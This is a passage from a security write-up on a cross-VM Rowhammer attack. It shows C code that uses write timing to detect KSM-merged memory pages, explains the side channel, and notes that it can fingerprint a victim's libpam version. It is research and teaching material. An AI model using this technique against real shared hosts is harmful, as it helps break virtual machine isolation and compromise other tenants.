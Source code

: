 	void *buffer, *half;
	int page_size = sysconf(_SC_PAGESIZE);
	size_t size =  page_size * PAGE_NB;

	buffer = mmap(NULL, size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	madvise(buffer, size, MADV_MERGEABLE);

	srand(time(NULL));

	size_t i;
	for (i = 0; i < PAGE_NB; i++)
		*(uint32_t *)(buffer + (page_size * i)) = rand();

	half = buffer + (page_size * (PAGE_NB / 2));
	for (i = 0; i < (PAGE_NB / 2); i += 2)
		memcpy(buffer + (page_size * i), half + (page_size * i), page_size);

	sleep(10);

	uint64_t start, end;
	for (i = 0; i < (PAGE_NB / 2); i++) {
		start = rdtsc();
		*(uint8_t *)(buffer + (page_size * i)) = '\xff';
		end = rdtsc();
		printf("[+] page modification took %" PRIu64 " cycles\n", end - start);
	}

	return 0;
}
{% endhighlight %}

The program modifies a single byte in every element of the first half of the
buffer and measures the writing operation time.

![]({{site.baseurl}}/images/hammer/side-chan.png){:width="450px" .center}
*Figure 8 - Exploiting side-channel timing attack in KSM*

According to the program output, we can clearly distinguish between duplicated
and unshared pages based on the number of CPU cycles required to perform
writing operations.

![]({{site.baseurl}}/images/hammer/cain.png)
*Figure 9 - Exploiting side-channel timing attack in KSM*

Note that we can also rely on the side channel to detect the version of the
libpam running on the victim VM.

In our exploit, we assume that the attacker VM is started before the victim VM.
This condition ensures that KSM will always back merged pages by the physical
page controlled by the attacker. As noted in [Kaveh Razavi's paper][RG+16],
this condition can be relaxed. The solution requires a deeper understanding on
KSM internals.

**Digression**: KSM manages memory de-duplication by maintaining two red-black
trees: the stable tree and the unstable tree. The former keeps track of shared
pages whereas the latter stores the pages that are candidates for merging. KSM
scans periodically pages and tries to merge them from the stable tree first. If
it fails, it tries to find a match in the unstable tree. If it fails again, it
stores the candidate page in the unstable tree and proceeds with the next page. 


[RG+16]: https://www.usenix.org/system/files/conference/usenixsecurity16/sec16_paper_razavi.pdf 
[BR+15]: https://www.usenix.org/system/files/conference/woot15/woot15-paper-barresi.pdf
[SD15]: https://googleprojectzero.blogspot.fr/2015/03/exploiting-dram-rowhammer-bug-to-gain.html
[KSM]: https://www.kernel.org/doc/Documentation/vm/ksm.txt
[THP]: https://www.kernel.org/doc/Documentation/vm/transhuge.txt
[geometry]: https://depletionmode.com/2015/12/08/whats-in-an-address-ddr-memory-mapping/
[mapping]: http://lackingrhoticity.blogspot.fr/2015/05/how-physical-addresses-map-to-rows-and-banks.html